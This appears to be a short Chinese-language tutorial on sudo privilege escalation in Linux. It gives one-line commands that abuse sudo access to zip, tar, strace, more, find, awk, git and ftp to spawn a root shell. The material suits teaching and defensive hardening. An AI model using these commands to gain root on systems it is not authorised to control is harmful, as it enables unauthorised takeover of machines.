










<span style="font-size: 40px; font-weight: bold;">Sudo 提权</span>

<div style="text-align: right;">

date: "2023-09-03"

</div>

# 1. 什么是 Sudo 提权？

Sudo 就是临时授权的意思，可以临时让其以 root 权限运行某个程序。在`/etc/sudoers`中设置了可执行 sudo 指令的用户。前提得知道该账号的密码。

# 2. 配置 Sudo 权限

```bash
vim /etc/sudoers

t1st    ALL=(ALL:ALL)   ALL
```

我们使用 root 用户将 t1st 用户添加进去。



# 3. Sudo 提权

## 3.1 Su 命令提权

```bash
sudo su - root
```



## 3.2 Zip 命令提权

随便在`/tmp`目录下上传一个 1.zip 即可。自定义解压命令是以 root 权限执行的，指定为 sh -c /bin/bash, 获取一个 root 权限的 shell

```bash
sudo zip /tmp/1.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```



## 3.3 Tar 命令提权

`–checkpoint-action` 选项是提权点，可以自定义需要执行的动作，指定为`exec=/bin/bash`，获取一个 root 权限的 shell

```bash
sudo tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash
```



## 3.4 strace 命令提权

`#strace`以 root 权限运行跟踪调试`/bin/bash`, 从而获取 root 权限的 shell

```bash
sudo strace -o/dev/null /bin/bash
```



## 3.5 more 命令提权

```bash
sudo more /etc/rsyslog.conf
!/bin/bash
```



## 3.6 find 命令提权

```bash
sudo find /bin/ -name ls -exec /bin/bash \;
```



## 3.7 awk 命令提权

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```



## 3.8 git 命令提权

```bash
sudo git help status
!/bin/bash
```



## 3.9 ftp 命令提权

```bash
sudo ftp
!/bin/bash
```


